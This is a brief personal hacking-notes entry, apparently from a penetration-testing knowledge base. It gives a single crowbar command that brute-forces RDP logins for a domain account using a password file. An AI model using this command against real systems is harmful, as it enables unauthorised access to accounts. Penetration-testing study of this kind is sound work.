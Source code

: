 # crowbar brute force RDP active directory domain joined
```
crowbar -b rdp -n 1 -s $IP/32 -u username@DOMAIN.local -C ./passwords
```

# Related
- [20221003150779](/zet/20221003150779/README.md) crowbar brute force RDP
- ~/kb/hacking/commands/crowbar.md

Tags:
    #assorted #command #hacking #crowbar
